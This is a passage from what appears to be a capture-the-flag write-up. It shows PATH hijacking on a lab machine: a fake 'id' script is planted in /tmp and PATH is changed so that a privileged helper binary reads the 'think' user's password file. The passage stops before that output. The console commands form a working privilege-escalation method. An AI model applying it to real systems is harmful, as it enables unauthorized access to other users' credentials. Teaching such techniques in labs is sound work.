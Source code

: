 ```c
  }
  fclose(pFVar2);
  uVar3 = 0;
}
```

### Path Hijacking

The problem with the binary is that it runs the `id` command with a relative path, which allows us to hijack it by manipulating the `PATH` environment variable.

When we run a program without an absolute path, Linux tries to find the path to the executable by utilizing the value of the `PATH` environment variable.

We can see the value of the `PATH` variable as follows:

```console
www-data@lookup:/var/www$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

So, for example, when we run the `id` command, it starts from the left and checks each directory in the `PATH` variable for the `id` executable. If it finds it in a directory, it runs that executable.

The thing is, we are able to modify the value of the `PATH` variable. What we can do is create an executable named `id`, in this case, a bash script that outputs `uid=33(think) gid=33(www-data) groups=33(www-data)` in `/tmp`, and make it executable by everyone as follows:

```console
www-data@lookup:/tmp$ echo -e '#!/bin/bash\necho "uid=33(think) gid=33(www-data) groups=33(www-data)"' > /tmp/id
www-data@lookup:/tmp$ chmod 777 /tmp/id
```
{: .wrap }

Next, we can modify the `PATH` variable to put `/tmp` first, before any other directory, as such:

```console
www-data@lookup:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@lookup:/tmp$ export PATH=/tmp:$PATH
www-data@lookup:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

As we can see, now when we run the `id` command, it executes `/tmp/id` instead of `/usr/bin/id`, and we get our modified output:

```console
www-data@lookup:/tmp$ which id
/tmp/id
www-data@lookup:/tmp$ id
uid=33(think) gid=33(www-data) groups=33(www-data)
```

Now, we can run the `/usr/sbin/pwm` binary, and due to the modified `PATH` variable, it will also run `/tmp/id`, get `uid=33(think) gid=33(www-data) groups=33(www-data)` as the output of the `id` command, extract the username as `think`, and then print the contents of the `/home/think/.passwords` file as follows:
